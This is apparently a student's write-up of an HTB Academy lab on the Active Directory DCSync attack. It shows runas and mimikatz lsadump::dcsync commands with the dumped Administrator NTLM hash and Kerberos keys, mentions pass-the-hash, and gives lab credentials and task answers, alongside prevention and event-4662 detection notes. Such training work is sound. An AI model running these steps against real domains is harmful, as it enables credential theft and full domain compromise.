


# DCSync

## Description

**DCSync** is a type of cyberattack where a hacker tricks a Domain Controller (DC) into thinking they're another DC. This lets the hacker ask for and receive sensitive information, like **password hashes**, from **Active Directory** (AD).

To do this, the hacker needs an account (either a user or a computer account) that has special permissions:

* **Replicating Directory Changes**
* **Replicating Directory Changes All**

These permissions allow the account to **copy data** from AD—just like a real Domain Controller would when syncing data.

***

## Attack

<mark style="color:yellow;">1.</mark>\
The first thing is to check does your user or computer have the necessary permissions, that we mentioned above.\
Lets say we escalated our privilages from an account "bob" to account "rocky" who has all the privilages

<figure><figcaption></figcaption></figure>

<mark style="color:yellow;">2.</mark>\
Than we need to open cmd and run as our new user "rocky"

### Run shell as different user

```cmd-session
C:\Users\bob\Downloads>runas /user:eagle\rocky cmd.exe

Enter the password for eagle\rocky:
Attempting to start cmd.exe as user "eagle\rocky" ...
```

This includes that we know the password remember.

3.\
Than we open mimikatz because it contains an implementation for performing DCSync attacks. Just mention the domain and user in the command.

## Perform dcsync

```cmd-session
C:\Mimikatz>mimikatz.exe

mimikatz # lsadump::dcsync /domain:eagle.local /user:Administrator


[DC] 'eagle.local' will be the domain
[DC] 'DC2.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 07/08/2022 11.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8
```

The field that we are intrested in is **Hash NTLM**

It is possible to specify the `/all` parameter instead of a specific username, which will dump the hashes of the entire AD environment. We can perform `pass-the-hash` with the obtained hash and authenticate against any Domain Controller.

***

## Prevention

* Using a third party product "[RPC Firewall](https://github.com/zeronetworks/rpcfirewall)"
* What DCSync abuses is a common operation in Active Directory environments, as replications happen between Domain Controllers all the time
* Therefore, preventing DCSync out of the box is not an option.

***

## Detection

* &#x20;Domain Controller replication generates an event with the ID `4662`

<figure><figcaption></figcaption></figure>

Since replications occur constantly, we can avoid false positives by ensuring the followings:

* Either the property `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` or `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` is [present in the event](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb).
* Whitelisting systems/accounts with a (valid) business reason for replicating, such as `Azure AD Connect` (this service constantly replicates Domain Controllers and sends the obtained password hashes to Azure AD).

***

## Task

### Task 1

**Connect to the target and perform a DCSync attack as the user rocky (password:Slavi123). What is the NTLM hash of the Administrator user?**

Once connected to the user bob, we need to open cmd and run the cmd as user rocky, we have the provided password in the task description.

<figure><figcaption></figcaption></figure>

Great, now we need mimikatz\
In the rocky user, the mimikatz are located in **C:\Mimikatz**\
Run the dcsync command

<figure><figcaption></figcaption></figure>

**Answer: fcdc65703dd2b0bd789977f1f3eeaecf**

***

### Task 2

**fter performing the DCSync attack, connect to DC1 as 'htb-student:HTB\_@cademy\_stdnt!' and look at the logs in Event Viewer. What is the Task Category of the events generated by the attack?**

RDP from the bob RDP, to the DC1. The ip for DC1 is 172.16.18.3

<figure><figcaption></figcaption></figure>

Open Event Viewer, Security Logs, Filter and add the Event ID 4662

<figure><figcaption></figcaption></figure>
